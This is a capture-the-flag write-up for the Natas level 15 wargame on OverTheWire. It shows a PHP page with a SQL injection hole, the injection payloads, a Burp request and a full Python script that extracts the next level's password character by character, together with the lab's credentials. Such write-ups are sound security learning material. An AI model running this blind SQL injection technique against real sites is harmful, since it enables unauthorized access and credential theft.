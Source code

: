 ```yaml
---
layout: post
title: "Natas Level15 - Level16"
date: 2015-10-02 21:06:42
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

 Natas 15 looks like it is going to be fun! When I first get to the page, I am greeted by a simple User name search:

    ![Natas 15 search](/assets/img/screenshots/Natas_level15-1.png)

The page will then respond with:

    ![Natas 15 response](/assets/img/screenshots/Natas_level15-2.png)

Lets take a look at the source:

    <html>
    <head>
    <!-- This stuff in the header has nothing to do with the level -->
    <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
    <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
    <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
    <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
    <script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
    <body>
    <h1>natas15</h1>
    <div id="content">
    <?

    /*
    CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
    );
    */

    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas15', '<censored>');
        mysql_select_db('natas15', $link);

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        $res = mysql_query($query, $link);
        if($res) {
        if(mysql_num_rows($res) > 0) {
            echo "This user exists.<br>";
        } else {
            echo "This user doesn't exist.<br>";
        }
        } else {
            echo "Error in query.<br>";
        }

        mysql_close($link);
    } else {
    ?>

    <form action="index.php" method="POST">
    Username: <input name="username"><br>
    <input type="submit" value="Check existence" />
    </form>
    <? } ?>
    <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
    </body>
    </html>

Again, looking at the source we can tell that this is a sql injection vulnerability. you can see this in the query:

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";

I suspect that the table contains usernames and passwords. To check that I ran the following query:

    natas16" AND password IS NOT NULL AND "1"="1

Explanation: "password IS NOT NULL" will just check to see if anything exits. if it does it should return true. the 'AND "1'="1' just allows this query to properly execute since that condition is true (And I needed something with quotes for this to be a valid query :))

Next I submitted a query that will check if the passwords first character is "a":

    natas16" AND LEFT(password, 1) = "a

No surprises here, I got a "User does not exist" error. Next I captured this request, and sent it to the Burp Intruder. I set up only a position around the "a" at the end and I loaded the A-Za-z0-9 presets. Here is an example of the request:

    POST /index.php HTTP/1.1
    Host: natas15.natas.labs.overthewire.org
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.2.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://natas15.natas.labs.overthewire.org/index.php?debug
    Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 56

    username=natas16%22+AND+LEFT%28password%2C+1%29+%3D+%22§a§

I clicked run and got the first letter of the password:

    ![Natas 15 Burp Intruder](/assets/img/screenshots/Natas_level15-3.png)

Wait, what the hell?

    ![Natas 15 Duplicate letter](/assets/img/screenshots/Natas_level15-4.png)

It looks like the first letter is "w" but the database is not case sensitive so the Burp Intruder found both "w" and "W" send back the same response. To fix this, we just need to change the statment a bit:

    natas16" AND LEFT(password, 1) COLLATE latin1_general_cs = "w

"COLLATE latin1_general_cs" will override the default collation into one that is case sensitive. After I ran this, I got the reponse: "User does not exist." However, when I ran it with the "W" character, I got got the response "User Exists". So lets summarize what we know:

 1. The table has usernames and passwords
 2. All passwords thus far have only contained letters and numbers and were 32 characters long
 3. The database is case insensitive

With those conditions, this sounds like the perfect time to create a script :)

    import urllib
    import urllib2
    cookie='__cfduid=d6d468235c70649795d3603f9283975561442874989; __utma=176859643.1107484385.1442874995.1443039560.1443041564.3; __utmz=176859643.1442874995.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmc=176859643'

    url = 'http://natas15.natas.labs.overthewire.org/index.php'
    referrer = 'natas15.natas.labs.overthewire.org'
    authorization = 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='

    Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
    's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
    'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
    '6','7','8','9']

    password = ""

    #loop through possible length of password
    for i in range(1, 33):
        print "%d out of 32" % (i)
        #loop through possible chars
        for j in range(0,len(Chars)):
            sqli = 'natas16" AND LEFT(password, %d) COLLATE latin1_general_cs = "%s' % (i,password + Chars[j])
            values = {'username' : sqli}
            data = urllib.urlencode(values)
            req = urllib2.Request(url, data)
            req.add_header('Cookie', cookie)
            req.add_header('Referrer', referrer)
            req.add_header('Authorization', authorization)
            try:
                response = urllib2.urlopen(req)
                the_page = response.read()
                #print the_page
            except HTTPError, e:
                print e.reason
            if "This user exists." in the_page:
                password+=Chars[j]
                print password
                break

I get the following output for the script:

    1 out of 32
    W
    2 out of 32
    Wa
    3 out of 32
    WaI
    4 out of 32
    WaIH

    ...

    29 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5n
    30 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5nh
    31 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5nhm
    32 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

Boom! our password is:
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh


